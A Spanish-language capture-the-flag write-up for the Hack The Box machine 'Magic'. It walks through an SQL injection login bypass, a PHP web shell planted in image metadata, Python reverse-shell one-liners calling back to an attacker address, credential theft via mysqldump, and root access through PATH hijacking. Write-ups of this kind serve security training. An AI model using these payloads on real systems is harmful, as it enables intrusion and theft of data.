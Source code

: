 # Magic

**OS**: Linux \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen

- SQL Inyection login bypass
- File Upload Web Shell
- Mysqldump
- Path variable priv escalation

## Nmap Scan

`nmap -sV -sC -Pn -T3 -sS -p- 10.10.10.185`

```
Nmap scan report for 10.10.10.185
Host is up (0.073s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeración

Enumerando la pagina web que se encuentra en el puerto 80 podemos ver varias imágenes las cuales están en la ruta **/images/uploads** e **/images/fulls**.

![1](img/1.png)

También es posible ver un formulario de inicio de sesion, al cual es posible hacerle bypass con sql injection.

```
Username: 'or'1'='1
Password: 'or'1'='1
```

![2](img/2.png)

![3](img/3.png)

### File Upload Web Shell

Despues de hacer el bypass se visualiza un formulario para subir archivos que solo permite cierto tipo de extensiones.

![4](img/4.png)

Se puede realizar [bypass](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf) de la extensión del archivo para poder subir nuestra web shell en php.

Descargamos una imagen cualquiera y la modificamos con **exiftool** para agregar código php en la metadata de la imagen.

```
exiftool -DocumentName="<h1>D00M<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?></h1>" doom.jpg

mv doom.jpg doom.php.jpg
```

![5](img/5.png)

Subimos nuestra imagen modificada y podemos ver que se cargo exitosamente.

![6](img/6.png)

Nos dirigimos a la ruta **/images/uploads/doom.php.jgp** y nuestra web shell funciona correctamente.

```
http://10.10.10.185/images/uploads/doom.php.jpg?cmd=id
```

![7](img/7.png)

Ponemos a la escucha nuestro netcat para obtener una reverse shell.

- `nc -lvnp 1234`

```
http://10.10.10.185/images/uploads/doom.php.jpg?cmd=python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.251',1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![8](img/8.png)

Para trabajar cómodamente haremos un upgrade a nuestra reverse shell.

- `python3 -c "import pty;pty.spawn('/bin/bash')"`
- `ctrl + z`
- `stty raw -echo`
- `fg`
- `reset`
- `ctrl + c`

![9](img/9.png)

## Escalada de Privilegios (User)

Enumerando el directorio **/var/www/Magic** se encuentra el archivo **db.php5** el cual contiene credenciales para la base de datos **Magic**.

![10](img/10.png)

### Mysqldump

En los binarios instalados no se encuentra **mysqlclient** pero hay otro binario interesante llamado [mysqldump](https://www.linuxtotal.com.mx/index.php?cont=info_admon_021) el cual nos permite obtener la información de la base de datos en formato **sql**.

`locate mysql`

![11](img/11.png)

- `mysqldump -u theseus -p Magic > /tmp/doom.sql`
- `cat /tmp/doom.sql`

![12](img/12.png)

El archivo contiene un password, lo usaremos con el usuario **theseus**.

![13](img/13.png)

## Escalada de Privilegios (Root)

Podemos ver que hay un binario llamado **sysinfo**, es posible acceder a el ya que nosotros pertenecemos al grupo **users**. Investigando de como tomar ventaja de lo anterior llegamos a este [articulo](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/).

`find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null`

![14](img/14.png)

sysinfo ejecuta **lshw** y **fdisk**.

`strings /bin/sysinfo`

![15](img/15.png)

Usaremos esto para suplantar el binario **lshw** que contendrá nuestra reverse shell y luego ejecutaremos **sysinfo**.

```
mkdir /tmp/doom

echo "python3 -c \"import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.251',4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);\"" > lshw

chmod 777 lshw
```

![16](img/16.png)

El binario lshw se encuentra en la ruta **/usr/bin/lshw** modificando la variable **$PATH** agregaremos la ruta donde se encuentra el **lshw** modificado, podremos ver que se ha cambiado la ruta del binario lshw por la nuestra.

- `which lshw`
- `echo $PATH`
- `export PATH=/tmp/doom:$PATH`

![17](img/17.png)

Ponemos a la escucha nuestro netcat y ejecutamos **sysinfo**.

- `nc -lvnp 4321`
- `sysinfo`

![18](img/18.png)

## Referencias
https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf \
https://exiftool.org/ \
https://www.linuxtotal.com.mx/index.php?cont=info_admon_021 \
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/